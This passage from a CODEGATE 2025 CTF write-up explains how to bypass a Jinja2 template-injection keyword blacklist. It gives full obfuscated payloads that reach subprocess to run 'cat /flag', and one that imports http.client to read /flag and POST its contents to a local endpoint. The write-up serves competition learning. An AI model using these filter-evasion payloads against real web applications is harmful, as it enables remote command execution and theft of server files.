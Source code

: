 Alternatively, we can use only SSTI to execute both flag reading and writing at once.

### 1.1 Reading `/flag` using SSTI

```python
BLACKLIST = [
    r'__', r'\.', r'\[', r'\]', r'\+',
    r'request', r'config', r'os', r'subprocess',
    r'import', r'init', r'globals', r'open', r'read', r'mro', r'class'
]

```

Referencing [SSTI-Vulnerability(me2nuk)](https://me2nuk.com/SSTI-Vulnerability), we can bypass the BLACKLIST.

```python
{{ ''|attr('__class__') }} # Bracket bypass
{{ ''|attr('\x5f\x5fclass\x5f\x5f') }} # Underscore bypass (character bypass)

```

Using these two methods, we can craft our payload.

![Testing after removing @localhost_only](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%201.png)

Testing after removing @localhost_only

```python
</pre><pre id="flag">{{()|attr('\x5f\x5fcl\x61ss\x5f\x5f')|attr('\x5f\x5fb\x61se\x5f\x5f')|attr('\x5f\x5fsubcl\x61sses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(485)('cat /flag',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}</pre><pre>

```

To simplify flag parsing, I added a new `<pre id="flag">` tag.

---

### 1.2 Alternative Method to Bypass SSTI Filters

At Codegate 2025 Finals, [Void](https://pdw0412.tistory.com/m/) solved it using the following method.

The overall exploit flow is similar, but it's interesting that they didn't use `\`, so I've included it here.

Let's look at the payload first and understand it.

```html
{% set u='_' %}{% set d=u*2 %} {% set g =
cycler|attr(d~'i'~'n'~'i'~'t'~d)|attr(d~'g'~'l'~'o'~'b'~'a'~'l'~'s'~d) %} {% set
get_fg = g | attr('g'~'e'~'t') %} {{get_fg}} {% set b =
get_fg(d~'b'~'u'~'i'~'l'~'t'~'i'~'n'~'s'~d) %} {% set get_fb = b |
attr('g'~'e'~'t') %} {% set imp = get_fb(d~'i'~'m'~'p'~'o'~'r'~'t'~d) %} {{imp}}
{% set dot = get_fb('chr')(46) %} {% set http = imp('h' ~ 't' ~ 't' ~ 'p' ~ dot
~ 'c' ~ 'l' ~ 'i' ~ 'e' ~ 'n' ~ 't') %} {{http}} {% set httpc =
imp('h'~'t'~'t'~'p'~dot~'c'~'l'~'i'~'e'~'n'~'t', None, None, ('client',)) %} {%
set lh = 'localho'~'st' %} {{lh}} {% set conn = httpc|attr('HTTPConnection')(lh,
5000) %} {{conn}} {% set rq = 'r'~'e'~'q'~'u'~'e'~'s'~'t' %} {% set str_op =
'op'~'en' %} {{str_op}} {% set op = get_fb(str_op) %} {{op}} {% set rd =
'r'~'e'~'a'~'d' %} {% set flag = op('/flag')|attr(rd)() %} {{flag}} {% set body
= 'title=win&content=' ~ flag|urlencode %} {% set hdrs =
{'Content-Type':'application/x-www-form-urlencoded'} %} {% set str_pt =
'PO'~'ST' %} {{str_pt}} {{ conn | attr(rq)(str_pt, '/accept', body, hdrs) }} {{
conn | attr('g'~'e'~'t'~'r'~'e'~'s'~'p'~'o'~'n'~'s'~'e')() }}
```
